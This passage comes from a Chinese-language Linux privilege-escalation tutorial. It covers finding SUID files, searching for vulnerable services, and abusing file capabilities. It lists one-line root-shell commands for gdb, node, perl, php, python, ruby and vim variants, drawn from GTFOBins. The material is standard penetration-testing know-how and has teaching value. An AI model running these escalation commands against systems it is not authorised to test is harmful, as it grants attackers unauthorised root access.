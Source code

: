 关于更多nmap提权技巧可以看[nmap提权技巧](https://gtfobins.github.io/gtfobins/nmap/)

#### SUID文件提权

1. 首先找到设置了`SUID`或`SGID`的文件`find / -type f -perm -04000 -ls 2>/dev/null`
2. 具有SUID权限的文件，也可以去[GTFOBins](https://gtfobins.github.io/)网站查看SUID利用，网站仅提供参考
   ![image-20220826143201014](https://raw.githubusercontent.com/lant34m/pic/main/image-20220826143201014.png)

### 利用存在漏洞的命令/服务

Linux存在的命令非常多，可以利用`searchsploit`去搜索工具漏洞

如screen 4.5版本或apache 2或sudo提权

### Capabilities提权

> Linux 2.2以后增加了capabilities的概念，可以理解为水平权限的分离。以往如果需要某个程序的某个功能需要特权，我们就只能使用root来执行或者给其增加SUID权限，一旦这样，我们等于赋予了这个程序所有的特权，这是不满足权限最小化的要求的；在引入capabilities后，root的权限被分隔成很多子权限，这就避免了滥用特权的问题，我们可以在[capabilities(7) - Linux manual page](http://man7.org/linux/man-pages/man7/capabilities.7.html)中看到这些特权的说明。

1. 利用`getcap -r / 2>/dev/null`查看设置了capabilities的可执行文件

2. 利用命令提权，可以参考[GTFOBins](https://gtfobins.github.io/#+capabilities)（有些命令不适合所有终端）

   ```
   # gbd的利用方法
   ./gdb -nx -ex 'python import os; os.setuid(0)' -ex '!sh' -ex quit
    
   #node的利用方法
   ./node -e 'process.setuid(0); child_process.spawn("/bin/sh", {stdio: [0, 1, 2]})'
    
   #perl的利用方法
   ./perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/sh";'
    
   #php的利用方法
   ./php -r "posix_setuid(0); system('/bin/sh');"
    
   #pythond的利用方法
   ./python -c 'import os; os.setuid(0); os.system("/bin/sh")'
    
   #ruby的利用方法
   ./ruby -e 'Process::Sys.setuid(0); exec "/bin/sh"'
    
   #rview的利用方法
   ./rview -c ':lua os.execute("reset; exec sh")'
    
   #rvim的利用方法
   ./rvim -c ':py import os; os.setuid(0); os.execl("/bin/sh", "sh", "-c", "reset; exec sh")'
    
   #view的利用方法
   ./view -c ':py import os; os.setuid(0); os.execl("/bin/sh", "sh", "-c", "reset; exec sh")'
    
   #vim的利用方法
   ./vim -c ':py import os; os.setuid(0); os.execl("/bin/sh", "sh", "-c", "reset; exec sh")'
    
   #vimdiff的利用方法
   ./vimdiff -c ':py import os; os.setuid(0); os.execl("/bin/sh", "sh", "-c", "reset; exec sh")'
   ```
